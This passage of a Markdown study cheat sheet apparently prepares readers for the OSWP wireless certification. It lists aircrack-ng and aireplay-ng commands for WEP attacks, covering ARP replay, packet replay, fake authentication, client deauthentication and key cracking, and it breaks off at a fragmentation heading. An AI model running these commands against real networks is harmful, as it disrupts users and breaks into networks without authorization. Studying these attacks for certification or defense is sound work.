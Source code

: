 
## 5. WEP Attacks

WEP is deprecated but still tested on OSWP. These are the classic attacks:

### ARP Replay Attack (Connected Clients)

1. **Monitor & capture**:
```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <CAPTURE_NAME> wlan0mon
```
2. **Fake authentication** (optional, if open auth):
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> wlan0mon
```
3. **ARP replay**:
```bash
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> wlan0mon
```
4. **Deauth** (to trigger ARP generation):
```bash
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```
5. **Crack** once enough IVs collected:
```bash
aircrack-ng <CAPTURE_NAME-01.cap>
```
### Interactive Packet Replay

```bash
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
aircrack-ng -z <CAPTURE_NAME.cap>
```

---
### Fake Authentication

```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> wlan0mon
```

Useful for some WEP injection attacks that require association.

---
### Deauthentication Attack on WEP

```bash
aireplay-ng -0 <COUNT> -a <BSSID> [-c <CLIENT_MAC>] wlan0mon
```

Forces WEP clients to reconnect, generating ARP packets (which you can replay).

---
### Fragmentation Attack
